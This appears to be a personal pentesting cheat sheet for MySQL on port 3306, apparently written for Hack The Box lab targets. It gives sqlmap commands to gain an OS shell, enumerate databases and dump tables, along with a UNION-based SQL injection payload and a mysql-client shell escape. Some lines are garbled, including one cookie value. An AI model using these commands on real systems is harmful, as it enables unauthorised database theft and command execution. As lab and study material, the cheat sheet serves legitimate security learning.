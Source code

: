 # Port 3306/tcp
## Stardard usage
 - MySQL
<hr>
### Automatic tools for sql injection
#### sqlmap
-  for http endpoint api query
-  Usage:
   -  Reverse shell
    ```bash
    sqlmap -u http://10.129.207.176/dashboard.php\?search\= --cookie="PHPSESSID=vkrvi768lbi9USE mysql;l638e7n8ovv03e" --os-shell
    ```
   -  Init scanning db
    ```bash
    sqlmap ${curl_param}
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’
    ```
    - Enumerating for the databases
    ```bash
    sqlmap ${curl_param} --dbs
    # Example
    sqlmap ‘http://preprod-payroll.trick.htb/ajax.php?action=login’ -H ‘User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0’ -H ‘Accept: */*’ -H ‘Accept-Language: en-US,en;q=0.5’ –compressed -H ‘Content-Type: application/x-www-form-urlencoded; charset=UTF-8’ -H ‘X-Requested-With: XMLHttpRequest’ -H ‘Origin: http://preprod-payroll.trick.htb’ -H ‘Connection: keep-alive’ -H ‘Referer: http://preprod-payroll.trick.htb/login.php’ -H ‘Cookie: PHPSESSID=lk81fvs6lkqiv43o3ddeo50hq5’ –data-raw ‘username=admin&password=admin’ –dbs
    ```
    - Get tables from a db
    ```bash
    sqlmap ${curl_param} -D db_name –tables
    ```
    - Dump a tables
    ```bash
    sqlmap ${curl_param} -D db_name -T tb_name –dump
    ```

    - Combine usage with burp
        - Copy repeater request as req.map
        ```bash
        sqlmap -r sql.map -p total_service --batch
        ```
### SQL inject query
- Resource: https://book.hacktricks.xyz/pentesting-web/sql-injection
- Union-basd
    ```sql
    "test' and 1=2 UNION SELECT 1,sqlite_version(),3 -- -
    ```

### Shell in msql
```bash
\! sh
```
